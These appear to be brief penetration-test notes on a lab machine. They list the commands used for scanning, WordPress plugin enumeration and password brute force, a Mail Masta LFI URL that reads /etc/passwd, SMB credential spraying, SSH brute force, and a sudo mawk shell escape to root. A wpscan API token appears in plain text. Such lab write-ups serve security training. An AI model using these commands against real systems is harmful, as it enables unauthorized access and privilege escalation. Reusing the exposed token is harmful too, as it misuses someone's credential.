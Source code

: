 nmap -p- -sV -sC -Pn 192.168.102.112 --open

ftp anonymous available
passwords in pdf

wpscan for 
wpscan --url http://192.168.102.112 --enumerate p --plugins-detection aggressive --api-token fQRHq1Xd2K2yCo8zQjiNQwGrSMbOJUekxgKkxaqRYew
wpscan --url http://192.168.102.112 --passwords password112.txt --api-token fQRHq1Xd2K2yCo8zQjiNQwGrSMbOJUekxgKkxaqRYew
LFI in mail masta plugin
http://192.168.102.112/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
got username
created username and passwordlist
crackmapexec smb 192.168.102.112 -u user112.txt -p password112.txt --shares --continue-on-success
 bruteforce ssh
 got sarah for ssh
 sudo -l 
 mawk
 sudo mawk 'BEGIN {system("/bin/sh")}'
 gtfobins got root